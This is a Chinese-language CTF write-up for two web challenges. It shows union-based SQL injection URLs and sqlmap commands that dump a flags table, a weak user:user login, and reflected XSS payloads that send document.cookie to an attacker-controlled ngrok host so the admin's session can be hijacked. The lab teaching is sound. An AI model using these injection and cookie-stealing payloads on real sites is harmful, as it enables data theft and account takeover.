# HW 0x02 writeups

[news, Web, 160 points](./readme.md#news-160-points)

[error message, Web, 220 points](./readme.md#error-messages-220-points)

Auther: **stavhaygn**

Writeup By: **yctseng1227**

## news (160 points)

### Description

我都唸 SQL 。
不對，應該要唸 SQL ！
雖然我朋友都唸 SQL ，但我覺得應該要唸 SQL 。
可是我都唸 SQL。

https://news.macacahub.tw/

### Solution

乍看之下是個普通的公告欄，隨意點進其中一則可以發現網址列帶 id 參數，題目已經提示是 SQL injection，因此可以直接從網址的 id 參數下手作為注入點。其中，這種查詢資料庫類型的 SQL injection，我們可以搭配 `UNION SELECT` 針對可顯示資訊的頁面進行查詢。

第一步，起手式用 `ORDER BY` 來推測查詢表格欄位的數目。

```http
https://news.macacahub.tw/new.php?id=1 ORDER BY 3       # success
https://news.macacahub.tw/new.php?id=1 ORDER BY 4       # fail
```

> 通常這類的 SQLi 後面常常會用 `#`、` -- ` 之類的把系統後面的語句註解掉，但這題後面沒有其他查詢所以就可以省略。



> 注意，通常網址送出去都會被轉換成 URL encode（ e.g. (空格) = '%20' ）

經過測試可以知道 id 的資料型態為整數，且測到 `ORDER BY 4` 網頁就沒有顯示畫面，表示查詢表格的欄位數為 3，如此一來我們就可以用 `UNION SELECT` 串接其他 SQL 的查詢語句（注意 `UNION SELECT` 後面接的查詢欄位數目必須和前句相同）。

再來，我們嘗試戳 id，先找到一個無法正常查詢到的頁面（ e.g. id=6 ），拿來當作我們進行 SQL injection 要顯示結果的畫面，配合剛剛摸索到的欄位數，先來塞個 1, 2, 3 看看會怎麼樣。

```http
https://news.macacahub.tw/new.php?id=6 UNION SELECT 1,2,3
```



OK 成功顯示！
接下來就可以透過 SQL query 想辦法撈出我們想要的資訊，例如：SQL 版本。

```http
https://news.macacahub.tw/new.php?id=6 UNION SELECT @@version,NULL,NULL
```



用了 MySQL 的版本查詢方式 `@@version` 發現可以成功撈到版本。
下一步，我們需要先知道現在所在的資料庫名稱。

```http
https://news.macacahub.tw/new.php?id=6 UNION SELECT DATABASE(),NULL,NULL
```



`DATABASE()` 是 SQL 定義的 function，因此可以輕鬆拿到我們的目標資料庫！
目前可以知道資料庫名稱為 **newsdb** ，下一步要找的是表格名稱。

```http
https://news.macacahub.tw/new.php?id=6 UNION SELECT GROUP_CONCAT(table_name),NULL,NULL FROM information_schema.tables WHERE table_schema=database()
```

> 注意，如果沒有用 `GROUP_CONCAT` 把 table_name 包起來，在 SQL query 找到第一筆符合條件的資料就會return，不會將所有符合條件的結果都列出來。



這裡開始就會牽涉到 SQL 的結構，這裡用到 `information_schema` 是 MySQL 這種關聯式資料庫的一種特殊結構描述，用途是儲存資料庫的中繼資料，有興趣的可以參考 **飛飛** 的 [Web Security 魔法使攻略─SQL injection 起手式](https://ithelp.ithome.com.tw/articles/10220294)。
總之，搭配 SQL query 可以撈到資料庫內的兩份表格 **FLAGS**, **News**，我們很直覺的猜測 Flag 放在 **FLAGS**、公告欄訊息放在 **News**！

下一步，來看看表格內的欄位資訊。

```http
https://news.macacahub.tw/new.php?id=6 UNION SELECT GROUP_CONCAT(column_name),NULL,NULL FROM information_schema.columns WHERE table_schema=database() and table_name='FLAGS' 
```

> 這邊的 column_name 同理記得用 `GROUP_CONCAT()` 才能把所有資訊撈出來，如果嫌太輕鬆可以用 `LIMIT` 慢慢戳（？）



可以發現只有兩欄，分別是 id 和 flag，剩下就是針對欄位名稱要把我們想知道的 Flag 拿出來！

```http
https://news.macacahub.tw/new.php?id=6 UNION SELECT id,flag,NULL FROM FLAGS
```



其他有關 SQL injection 的 Payload 可以參考
https://portswigger.net/web-security/sql-injection/cheat-sheet

<br><br>

當然可以用純手工的方式慢慢戳，但利用 `sqlmap` 工具更快進行上述這般的 SQL injection 拿 Flag，流程上大致相同。

🙉 Find Database name
```bash
$ sqlmap -u https://news.macacahub.tw/new.php\?id\=1 --dbs
```


🙉 Find Table name
```bash
$ sqlmap -u https://news.macacahub.tw/new.php\?id\=1 -D newsdb --tables
```


🙉 Find column type
```bash
$ sqlmap -u https://news.macacahub.tw/new.php\?id\=1 -D newsdb -T FLAGS --columns
```


🙉 Dump FLAGS
```bash
$ sqlmap -u https://news.macacahub.tw/new.php\?id\=1 -D newsdb -T FLAGS --dump
```


或是，可以用更暴力的方式直接 **DUMP** Flag。
```bash
$ sqlmap -u https://news.macacahub.tw/new.php\?id\=1 --dump
```


<br>

## error messages (220 points)

### Description

說笑話給 admin 拿 session 

https://message.macacahub.tw/

> hint: 政府網站最喜歡用的帳號之一 `user`

由於解題人數不甚樂觀，助教額外加了其他 Hint 
> bonus 1: 在登入頁面找 XSS 注入點

> bonus 2: XAMPP快速架站 + 記得要用public IP (或是ngrok穿隧)

> bonus 3: admin 會模擬真人點擊你傳送的連結(笑話)


### Solution


本題主要分兩個部分：

a.	弱密碼
弱密碼，顧名思義為了求記憶方便像是 admin:password，從題目提示「台灣政府網站最喜歡用的帳號之一 user」，加上許多網站開發人員為求方便常常把帳號密碼設定相同，因此這題可以不小心用 **user : user** 成功登入。

b.	XSS
從登入失敗的錯誤提示可以發現 " Incorrect username or password" 會同時顯示在網址以 msg 參數列出，對此我們可以嘗試在該處進行測試，發現有 XSS 漏洞。
 


使用弱密碼登入後，發現由於非 admin 帳號因此無法拿 Flag。

但此外網站給了輸入框表示可以說笑話給 admin，嘗試輸入「C8763」被說不好笑QQ
 


根據提示「admin會模擬真人點擊你傳送的連結」，不難猜到需要透過前述的 XSS 漏洞讓 admin 點擊取得 admin 的 session，再修改網頁的 cookie 拿 Flag，對此我們需要架 server 來接收 admin 的 session。

下圖 terminal 左半部為在 local 開啟的 server，但由於沒有對外的 public IP 可以接收資訊，因此需要用到 ngrok 這個 reverse proxy 工具，如下圖右半部可以看到透過把 local 的 port 映射(map) 到一個 public IP，讓外部能夠透過這個 IP 連到我們的 server。
 


作為 Web 初學者，簡單說明一下如何快速自建Server。
> 作業環境 Python 3.6

```python
$ sudo pip3 install flask
$ sudo pip3 install flask_cors
$ python3 app.py
```

code 可參考 [app.py](https://github.com/MacacaHub/CTF-writeups/blob/master/AIS3%20EOF%20CTF%202019/how2meow/app.py)

利用登入頁面的 XSS 漏洞測試取得 local 端的 cookie，payload 方面要設定跳轉的 public IP，用 [`escape`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/escape) 或是 [`fetch`](https://developer.mozilla.org/en-US/docs/Web/API/Fetch_API)  擷取 cookie，另外還要注意若要字串相加 必須 "+" 改成 "%2B" (URL encode) 不然會被瀏覽器判定成空白導致執行失敗，或是可以改用`concat()`，以下提供兩種應用方式。
 
```html
https://message.macacahub.tw/login.php?msg=<script>location.href="https://<tunnel_id>.ngrok.io/?c="%2Bescape(document.cookie)</script>

https://message.macacahub.tw/login.php?msg=<script>fetch('https://<tunnel_id>.ngrok.io/?c='.concat(document.cookie))</script>
```



一旦成功偷到 local 端的 cookie，我們就能直接登入把上面的「完整網址」當作笑話餵給admin，模仿對方點擊網址將 admin 的 session 傳到我們的 server，LOL🤣🤣🤣。
 


最後用 F12大法 或是工具（e.g. Chrome 的 EditThiscookie）把 cookie 換成 admin 的 cookie 再重新整理頁面，拿 Flag。


